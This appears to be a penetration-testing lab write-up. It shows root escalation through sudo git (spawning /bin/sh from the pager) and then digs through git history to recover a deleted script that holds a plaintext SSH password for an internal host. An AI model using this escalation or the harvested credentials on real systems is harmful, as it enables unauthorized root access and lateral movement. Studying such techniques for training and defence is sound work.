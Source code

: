
- Check [GTFOBins](https://gtfobins.github.io/gtfobins) for `git` exploits
```bash
sudo git -p help config

# Once : prompt is shown
!/bin/sh
	# whoami
		root
```

- Review git repo
```bash
cd /srv/www/wordpress

git status
	HEAD detached at 612ff57
	nothing to commit, working tree clean

git log
	commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
	Author: root <root@websrv1>
	Date:   Tue Sep 27 14:26:15 2022 +0000
	
	    Removed staging script and internal network access
	
	commit f82147bb0877fa6b5d8e80cf33da7b8f757d11dd
	Author: root <root@websrv1>
	Date:   Tue Sep 27 14:24:28 2022 +0000
	
	    initial commit

git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

diff --git a/fetch_current.sh b/fetch_current.sh
	deleted file mode 100644
	index 25667c7..0000000
	--- a/fetch_current.sh
	+++ /dev/null
	@@ -1,6 +0,0 @@
	-#!/bin/bash
	-
	-# Script to obtain the current state of the web app from the staging server
	-
	-sshpass -p "dqsTwTpZPn#nL" rsync john@192.168.50.245:/current_webapp/ /srv/www/wordpress/
```
	- Add creds to notes
